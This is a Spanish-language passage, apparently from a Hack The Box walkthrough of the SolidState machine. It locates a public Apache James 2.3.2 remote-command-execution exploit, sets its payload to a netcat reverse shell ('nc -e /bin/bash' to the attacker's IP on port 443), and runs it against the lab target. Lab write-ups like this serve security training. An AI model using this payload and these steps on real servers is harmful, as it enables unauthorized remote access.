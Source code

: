 ```bash
❯ searchsploit james 2.3.2
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)           | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                           | linux/remote/35513.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Lo descargamos en nuestro directorio de trabajo:

```bash
❯ searchsploit -m linux/remote/35513.py
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/SolidState/content/35513.py


❯ mv 35513.py james_rce.py
```

Ahora, analizamos el exploit para ver que realiza y si es necesario realizar modificaciones para nuestro caso. El parámetro `payload` lo modificaremos para que se nos entable una reverse shell a nuestro máquina de atacate:

```python
payload = 'nc -e /bin/bash 10.10.14.23 443'
```

Al ejecutar el exploit, vemos que nos solicita parámetros:

```bash
❯ python2 james_rce.py
[-]Usage: python james_rce.py <ip>
[-]Exemple: python james_rce.py 127.0.0.1
```

Vamos a asignarle la dirección IP de la máquina víctima y nos ponemos en escucha por el puerto 443:

```bash
❯ python2 james_rce.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```
